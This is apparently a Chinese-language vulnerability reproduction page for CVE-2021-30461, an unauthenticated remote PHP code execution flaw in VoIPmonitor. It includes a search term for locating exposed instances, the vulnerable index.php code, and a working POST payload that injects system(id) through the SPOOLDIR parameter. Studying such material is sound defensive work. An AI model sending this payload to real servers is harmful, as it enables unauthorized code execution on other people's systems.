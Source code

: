 # VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

<a-checkbox checked>VoIPmonitor < 24.60</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"VoIPmonitor"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182534985.png)



index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```



传入参数 recheck 和 SPOOLDIR， 并将`SPOOLDIR` 写入 `config/configuration.php` 中

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182534999.png)



发送如下请求包

```plain
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182535569.png)



